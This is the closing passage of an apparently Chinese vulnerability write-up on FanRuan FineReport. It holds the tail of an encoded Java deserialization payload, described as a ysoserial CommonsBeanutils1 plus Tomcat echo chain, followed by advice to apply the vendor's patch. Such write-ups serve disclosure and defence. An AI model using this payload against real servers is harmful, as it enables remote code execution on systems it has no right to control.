\xde\xc4\x1f\xe0\xc2~,\xc1[\xd8\x0a7I\xf0q`\xba\xd86\xa7\xc1@Sx\xf6\"xh\x1c\xde\xe6\xc0,\xa2r\xfc\x11\xef\xc0\x81-\xd8\x96\xd2\xc7 \xba\x07\xf9_b\x1e\x87\xe6\xe1\xb2IGP\"\xe2\xf9#\xa8\x14\xf1\xee\x02\x11\xfb\x06\x11H%\x1b\x1b\xbd\x87E</\xe2]\x96\x17H\xc4\x7b\x83\xa0\xe3\x0d\x0b\"\xde\x13\xb1\x8f+\xdc\xc7\xd2\x80k\x18\x1f?\x07_\xb2dtp\x04\x8e\xf7\x07\xe1aY#\x7b\x00\x10\xf1>\xff\x7f\x94\x1f\xe0O\x29\xac7\xc1\x09\x19\xc0\xdbi\xacs\x88\xdf\x0a\x8f\xcfl\xe9\x83\xdbg\xb5\x0c\xa0\xbb&\x89D\xd0\xb9\x07\x1b\xdb\xaa\xc6\xee\xc6\xa6\xa0\x8b\xa1p\x7d\xd0\xcd\x9a\x0dA\x91\xc1\xa3'\x28\xb1\xb7\xde\xa0\x87\xbd]\x18\xf4\xb2\xe6[\xb7\xdaX\xbb\xe8v\x14\xf9\xbd\xacwq\x12\x97\xf4\x0d~\xcc\xea\xf5\x14Q<J\x94RD\x0f\xeb\xa5\x89\xde$6\xb3Rz\xf3\x28\\:\x80\xcb\xd8$\x97\xaf\xee\x83\x14\xcc\xeb\x1b\xbc\x9d\xbd\x19l\xa6+\xfaP\xd1\x92B\xb7\xef\xca$\x94\x9a$\xbe\xcd\x8e\xd3wlP\xf7\xfb\xae\xea\x87\x80>\xdc\x8b~\x04\x00\xec\xc7c\x99\xf8\xa6\xe1\x04^$\x14\xe1%\x94\xe1w\xf0\xe3eL\xc0+\xa8\xc1\xab\xa8\xc7kX\x81\xd7q.\xde\xc0\x05x\x131\xbc\x85\x04\xde\xc6ex\x07W\xe30\xb6\xe1=|\x1f\xef\xe3\x0e|\x80>\xfc\x19\xf7\xe2C\xf4\xe3#<\x80\x8f\xf1\x10\xfe\x82G\xf0W\xec\xc7\xdf\xf1\x18\xfe\x86\x83\xf8\x14o\xe2\x1f\x1c\xa2W \x1f%p\xe0\xcf\xd8\x0a\x07\xfc\xb8+\xd5\x9b\x80\xdb\xf0!\xde\x81\x135\xb8\x11o\xe2#\xb80\x0b\xd7\xe0c|\x027\xeap\x05\xfe\x82O \xa2\x1e\x17\xe3\xaf\xf8\x04\x12\x1a\xb1\x11\x7f\xc3\xa7\xf0`\x05t\xfc\x1d\x9f\xc2\x8b\x83\x18\xcb\xe1\xcd\xf2\xfb\xdb\x99X\xf76\xbf\xc2\x11\xef\xdd\x84\x7f@\xe0P^\x8a\xbc\xb2#\x0cx\xfb\x061\x07y6h\x28\x8d\x9a\xff/\xe2\x9f\xe9\xdf\xcfD|\x06\x88\xa3F\x8d:W\xc4A\xe7 d8R\xec\x1c\x96cA\xf8\x17\xb6\xa5\xc2\xf3<8\xf8\\\xc5\x95\x95\x0f\xa2\xa1\xf2A,J\xe2\x7f\x92\xb8z\xf5\xfd\x99\xc0\xec\xe5\xc1\xf8s\x14\xe1\x0b\xee\x14\xd9\x16H\x19\xec\xc1\xe7\xf8\"UJ\xdc\x017O\"\xbb\xa8\xc9w\xcd\x00f4W\xfb\xfew\xe8\xfd\xa7:\x89J\xfb\"Pi_\x80\xaa\x0f\xa0\xba\xa9\x0f\xce\xe6\xaa'\xd1\xe0\xbbv\x003|\xd7\xa5nR\x94\xbaH5W\xb3\xdb\xc4\xf5Yj\x8e\xabc\x96o\x8b=m\x16\x7fK\xcd\x08\x13\xf7\xf3\xfcT\x83\xe9\x08`66\xc0B\x00\xbd\xb8\x0bwgn\x17\x8bQ\x0c\x90\x13\x02\xb9!\x91\x88\x1a\xf2b:I8\x85\xf20\x9b\xf2\xd1D\x05\xd8@\xc5\xb0\xa8\x10\x09*A/\x95b3\x95\xe1z*\xc7]4\x06w\xd3h\xdcCc3\x89W\xc2$\x1c\xc1\xed\x10\xd0\x84I\xf8\x12wB\xc0fL\xc1\xbf9\xedz\x94c\x90\xc0A\xb1\x8b\x28u\x9b\xbf\x87\x04\xdc\x05\xe2\xd54K\x8e\xb6\x8e\xdd\x19\xc9\xdd\x29\x98\x9c\x04\xf7 \xa6s\x9c\xa4+U\xfc\x93\x97\xa30\xd9\x03DL\xb1@\xce\xb8\x05iS\xb7b\xa9\x1bU#\xbe\x89\xd0\xb3\x01\x97\xc0\xd5\xf3\x7f\x00\x00\x00\xff\xff")}}
```

PS：yso的CB1+Tomcat回显链 


### 0x06 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：

https://help.fanruan.com/finereport/doc-view-4833.html
